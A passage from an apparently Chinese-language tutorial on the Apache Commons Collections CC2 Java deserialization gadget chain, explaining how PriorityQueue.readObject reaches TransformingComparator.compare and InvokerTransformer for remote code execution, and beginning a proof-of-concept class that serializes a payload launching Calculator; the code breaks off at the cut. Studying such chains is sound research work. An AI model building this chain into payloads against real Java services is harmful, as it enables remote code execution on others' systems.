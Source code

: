 



### 理解demo

主要逻辑和CC1是类似的，唯一改变的，就是在流程里面增加了一个TransformingComparator对象，然后当调用该对象的compare方法时，就会触发rce。并且从compare方法中我们可以看到，其实就是调用了transformer的transform方法，这就与cc1中gadget的结尾完全一样了（transformer的transform之后的部分）。

![image-20231123143239378](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/typora/image-20231123143239378.png)



## 继续构造gadget

从上面逻辑知道，如果能够触发`TransformingComparator`对象的`compare`方法，就能构造出一个rce链。

并且，我们在自己的demo中，通过执行

```java
transforming_Comparator.compare(1, 2);
```

但是，现实场景中，没人帮我们执行这个函数。所以，**我们现在要开始寻找，有没有哪个类，在它的readObject逻辑中会触发这个动作（给Map新增元素）。**

这个类就是`PriorityQueue`，这也是java的一个原生类，在`java.util.PriorityQueue`中



我们看PriorityQueue的代码：

首先是反序列化的时候会触发readObject方法

![image-20231123143845878](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/typora/image-20231123143845878.png)

![image-20231123144004008](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/typora/image-20231123144004008.png)

![image-20231123144026508](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/typora/image-20231123144026508.png)

一直跟着走

![image-20231123143932445](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/typora/image-20231123143932445.png)







### 第一个poc demo



```java
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

public class CC2 {
    public static void main(String[] args) throws Exception {
        byte[] evilData = serialize(cc2("/System/Applications/Calculator.app/Contents/MacOS/Calculator"));
        unserialize(evilData);
    }
```